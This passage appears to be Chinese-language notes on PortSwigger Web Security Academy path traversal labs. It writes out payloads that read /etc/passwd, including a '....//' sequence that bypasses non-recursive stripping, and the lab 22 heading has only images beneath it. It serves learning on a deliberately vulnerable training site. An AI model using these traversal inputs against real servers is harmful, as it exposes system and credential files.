 直接访问https://0a4000c603628d8b80a8a89f006000e8.web-security-academy.net/image?filename=/etc/passwd



## 21.实验室：文件路径遍历，非递归地剥离遍历序列

![image-20250713235501154](portswigger.assets/image-20250713235501154.png)

如果是黑名单删除就直接让删除后的符号起作用

/image?filename=....//....//....//....//....//etc/passwd



## 22.实验室：文件路径遍历，遍历序列去除多余的 URL 解码

![image-20250714000530177](portswigger.assets/image-20250714000530177.png)

![image-20250714001411156](portswigger.assets/image-20250714001411156.png)
